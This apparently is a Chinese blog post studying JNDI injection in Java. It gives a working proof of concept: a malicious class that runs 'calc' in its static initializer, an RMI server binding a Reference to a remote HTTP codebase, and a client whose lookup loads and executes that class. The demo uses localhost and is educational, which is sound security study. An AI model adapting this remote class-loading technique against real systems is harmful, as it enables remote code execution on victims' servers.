 ```yaml
---
title: jndi注入学习
date: 2022-05-04 20:43:07
tags:
      - jndi
      - java
categories: java
---
```


### JNDI简介

JNDI（The Java Naming and Directory Interface，Java命名和目录接口）是一组在Java应用中访问命名和目录服务的API,命名服务将名称和对象联系起来,使得我们可以用名称访问对象。

常见的命名/目录提供者

- RMI
- LDAP
- CORBA
- DNS

一个简单的例子开始JNDI的学习

首先编写并编译恶意class文件放到可访问的URL上,接着将其URL注册并绑定给该服务器某端口的RMI服务商

> 这里有个问题,为什么不直接使用RMI来加载恶意类呢

因为RMI它的特点是调用完结果是由RMI服务器去执行的,执行完的结果以序列化的形式传递给客户端,虽然可能存在反序列化的利用,但是不符合这里想要构造的远程加载恶意class文件并在客户端上面执行的思路

恶意类

```java
import java.io.IOException;
public class evil {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();  
        }
    }
}
```

server.java

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class Server {
    public static void main(String[] args) throws Exception{
        //第一个参数随便填
        Reference reference=new Reference("calc","calc","http://127.0.0.1:5555/");
        //这里末尾要加个/,否则无法读取.....
        //将该reference封装成远程对象
        ReferenceWrapper referenceWrapper=new ReferenceWrapper(reference);
        LocateRegistry.createRegistry(1099);
        Naming.bind("hello",referenceWrapper);
    }
}

```

client.java

```java
import javax.naming.Context;
import javax.naming.InitialContext;

public class client {
    public static void main(String[] args)throws Exception {
        String url="rmi://127.0.0.1:1099/hello";
        Context ctx=new InitialContext();
        ctx.lookup(url);
    }
}
```

最后本质上是通过URLClassLoader去远程加载了恶意类
